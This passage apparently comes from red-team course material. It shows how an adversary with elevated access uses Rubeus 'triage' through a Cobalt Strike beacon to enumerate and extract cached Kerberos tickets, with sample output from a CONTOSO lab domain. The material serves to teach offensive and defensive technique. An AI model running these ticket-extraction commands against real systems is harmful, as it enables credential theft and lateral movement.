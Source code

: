 ### Extracting Tickets <a href="#el_1736795818157_1555" id="el_1736795818157_1555"></a>

If an adversary gains elevated access to a computer, they can extract Kerberos tickets that are currently cached in memory.  Rubeus' `triage` command will enumerate every logon session present and their associated tickets.  If multiple logon session exist (i.e. multiple users are logged onto the same computer), TGTs and/or service tickets for those users can be extracted and re-used by the adversary.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x9ff74

 ------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                   | Service                               | EndTime             |
 ------------------------------------------------------------------------------------------------------- 
 | 0xd42c80 | rsteel @ CONTOSO.COM       | krbtgt/CONTOSO.COM                    | 17/02/2025 19:53:40 |
 | 0x692d8c | pchilds @ CONTOSO.COM      | krbtgt/CONTOSO.COM                    | 17/02/2025 20:07:34 |
 | 0x692d8c | pchilds @ CONTOSO.COM      | LDAP/lon-dc-1.contoso.com/contoso.com | 17/02/2025 20:07:34 |
 | 0x692d8c | pchilds @ CONTOSO.COM      | ldap/lon-dc-1.contoso.com             | 17/02/2025 20:07:34 |
 | 0x9ff74  | pchilds @ CONTOSO          | lon-wkstn-1$@CONTOSO.COM              | 17/02/2025 09:47:18 |
 | 0x8f294  | pchilds @ CONTOSO.COM      | krbtgt/CONTOSO.COM                    | 17/02/2025 19:32:11 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | krbtgt/CONTOSO.COM                    | 17/02/2025 19:32:09 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | cifs/lon-dc-1.contoso.com             | 17/02/2025 19:32:09 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | GC/lon-dc-1.contoso.com/contoso.com   | 17/02/2025 19:32:09 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | ldap/lon-dc-1.contoso.com             | 17/02/2025 19:32:09 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | ldap/lon-dc-1.contoso.com/contoso.com | 17/02/2025 19:32:09 |
 | 0x3e4    | lon-wkstn-1$ @ CONTOSO.COM | DNS/lon-dc-1.contoso.com              | 17/02/2025 19:32:09 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | krbtgt/CONTOSO.COM                    | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | cifs/lon-dc-1.contoso.com             | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | cifs/lon-dc-1.contoso.com/contoso.com | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | LON-WKSTN-1$                          | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | LDAP/lon-dc-1.contoso.com             | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | LDAP/lon-dc-1.contoso.com/contoso.com | 17/02/2025 19:32:10 |
 | 0x3e7    | lon-wkstn-1$ @ CONTOSO.COM | lon-wkstn-1$@CONTOSO.COM              | 17/02/2025 09:47:18 |
 -------------------------------------------------------------------------------------------------------
```

